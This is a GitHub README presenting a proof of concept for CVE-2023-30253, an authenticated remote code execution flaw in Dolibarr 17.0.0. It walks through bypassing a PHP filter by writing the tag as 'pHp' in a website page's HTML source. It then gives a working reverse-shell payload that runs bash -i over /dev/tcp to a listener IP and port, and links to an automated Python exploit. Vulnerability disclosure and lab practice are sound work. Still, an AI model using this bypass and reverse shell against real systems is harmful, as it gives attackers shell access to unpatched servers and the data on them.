

# Readme.md

## **CVE-2023-30253**

CVE-2023-30253 is a security flaw in Dolibarr software that enables authenticated users to execute remote code by utilizing an uppercase manipulation technique in injected data.

## Impact

This vulnerability can lead to unauthorized remote code execution by malicious actors, posing a severe threat to the security and integrity of the affected systems.
The vulnerability has been fixed in Dolibarr 17.0.1.

## Reference

[https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

[https://github.com/Dolibarr/dolibarr](https://github.com/Dolibarr/dolibarr)

---

## **Proof of Concept**

Following POC shows how to get Reverse Shell manually.

After login as test user, we can create/modify website.

.png)

First create a website, and then create a page.

.png)

After creating website and page, click on binoculars icon, this will open our created page in new tab.

Now click on Edit HTML Source.

.png)

Here we can try adding php code, but there is some kind of filter preventing us to write a php code.
This can be easily bypassed by changing the format of word php.

.png)

After changing format of word php to pHp, we can see it is successfully saved.

.png)

Going to the page, we can see our inserted php code is working.

Now to get reverse shell, lets set up netcat listener

.png)

.png)

Then add our reverse shell code `<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.101/1010 0>&1'"); ?>`

Now opening the website, gives us reverse shell

.png)

---

---

---

We can use the python code to make it easier

Setup netcat listener.

Run the script and we should have a revershell.

Author of the script: [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)